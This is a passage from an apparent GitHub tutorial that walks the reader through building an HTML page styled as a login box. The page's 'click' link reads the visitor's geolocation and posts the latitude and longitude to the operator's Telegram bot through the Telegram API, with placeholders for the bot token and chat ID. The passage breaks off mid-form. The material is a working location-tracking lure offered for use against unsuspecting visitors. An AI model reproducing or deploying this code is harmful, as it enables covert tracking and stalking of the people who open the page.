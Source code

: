     <img src="assets/img/Location/Token.png" alt="token" width="400" height="400">
</div>


---
## Code Breakdown: 💻

### 2. HTML Structure 📃
You must create the HTML code with the index.html extension, and I have written a simple code for you, you can make changes yourself.

```html
<!DOCTYPE html>
<html>
<head>
  <title>Telegram @i2xAm1r</title>
  <link rel="stylesheet" href="styles.css">
</head>
<body>
  <script>
    function sendLocation() {
      navigator.geolocation.getCurrentPosition(function(position) {
        var latitude = position.coords.latitude;
        var longitude = position.coords.longitude;

        var botToken = 'XXXXXXXXXXXXX';  // Replace with your bot token
        var chatId = 'XXXXXXXXXX'; // Replace with your bot token

        var url = 'https://api.telegram.org/bot' + botToken + '/sendLocation';
        var params = {
          chat_id: chatId,
          latitude: latitude,
          longitude: longitude
        };

        var xhr = new XMLHttpRequest();
        xhr.open('POST', url, true);
        xhr.setRequestHeader('Content-Type', 'application/json');
        xhr.send(JSON.stringify(params));
      });
    }
  </script>
  <div class="login-box">
    <form>
      <a href="#" onclick="sendLocation()">click
        <span></span>
        <span></span>
        <span></span>
        <span></span>
```